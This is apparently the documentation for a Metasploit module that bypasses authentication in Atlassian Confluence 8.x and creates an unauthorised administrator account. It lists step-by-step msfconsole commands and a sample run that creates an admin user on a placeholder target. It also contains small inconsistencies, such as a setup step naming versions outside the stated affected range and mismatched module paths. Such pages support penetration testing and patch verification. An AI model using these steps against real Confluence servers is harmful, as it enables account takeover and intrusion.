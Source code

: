 ## Vulnerable Application
This module exploits an Broken Access Control vulnerability in Atlassian Confluence servers leads to Authentication Bypass.

A specially crafted request can be create new admin account without authorization in the Atlassian server.

Affecting Atlassian Confluence from version 8.0.0 to before 8.3.3, from version 8.4.0 before 8.4.3 and from version 8.5.0 before 8.5.2.

## Verification Steps

1. Setting up a working installation of Atlassian Confluence Server before 8.0.0
2. Start `msfconsole`
3. `use use auxiliary/admin/http/atlassian_confluence_auth_bypass`
4. `set RHOST <IP>`
5. `set RPORT <PORT>`
6. `check`
7. You should see `The target is vulnerable`
8. `set NEW_USERNAME <username>`
9. `set NEW_PASSWORD <password>`
10. `run`
11. You should get a new admin account.

## Options
### TARGETURI
Path to Atlassian Confluence installation ("/" is the default)

### NEW_USERNAME
Username to be used when creating a new user with admin privileges. The username must not contain capital letters.

### NEW_PASSWORD
Password to be used when creating a new user with admin privileges.

### NEW_EMAIL
E-mail to be used when creating a new user with admin privileges.

## Scenarios
### Tested on Confluence Server 8.0.0 with Linux target (Ubuntu 20.04)
```
msf > use auxiliary/multi/http/atlassian_confluence_auth_bypass
msf > auxiliary(admin/http/atlassian_confluence_auth_bypass) > set RHOSTS <YOUR_TARGET>
RHOSTS => <YOUR_TARGET>
msf > auxiliary(admin/http/atlassian_confluence_auth_bypass) > set NEW_USERNAME admin_1337
NEW_USERNAME => admin_1337
msf > auxiliary(admin/http/atlassian_confluence_auth_bypass) > set NEW_PASSWORD admin_1337
NEW_PASSWORD => admin_1337
msf > auxiliary(admin/http/atlassian_confluence_auth_bypass) > run
[*] Running module against <YOUR_TARGET>

[+] Admin user was created successfully. Credentials: admin_1337 - admin_1337
[+] Now you can login as adminstrator from: http://<YOUR_TARGET>:8090/login.action
[*] Auxiliary module execution completed
```

